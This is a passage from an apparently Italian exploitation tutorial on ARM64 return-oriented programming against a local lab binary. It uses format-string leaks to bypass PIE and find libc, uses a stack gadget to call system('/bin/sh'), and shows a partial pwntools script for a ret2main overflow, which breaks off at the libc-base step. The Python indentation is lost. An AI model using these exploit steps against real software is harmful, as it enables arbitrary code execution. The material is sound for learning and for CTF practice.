 Provando diversi offset, il **`%21$p`** può leakare un indirizzo binario (bypass PIE) e il **`%25$p`** può leakare un indirizzo libc:

<figure><img src="../../../.gitbook/assets/image (1223).png" alt="" width="440"><figcaption></figcaption></figure>

Sottraendo l'indirizzo libc leakato con l'indirizzo base di libc, è possibile vedere che l'**offset** dell'**indirizzo leakato dalla base è `0x49c40`.**

### offset x30

Vedi l'esempio precedente poiché il bof è lo stesso.

### Trova Gadgets

Come nell'esempio precedente, dobbiamo avere in **`x0`** l'indirizzo della stringa **`/bin/sh`** e chiamare **`system`**.

Utilizzando rooper è stato trovato un altro gadget interessante:
```
0x0000000000049c40: ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;
```
Questo gadget caricherà `x0` da **`$sp + 0x78`** e poi caricherà gli indirizzi x29 e x30 da sp e salterà a x30. Quindi, con questo gadget possiamo **controllare il primo argomento e poi saltare a system**.

### Exploit
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
p.sendlineafter(b">\n" ,payload)
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
if is_main_addr:
response = response[:-4] + b"0000"
return int(response, 16)

def expl_bof(payload):
p.recv()
p.sendline(payload)

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset)
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
```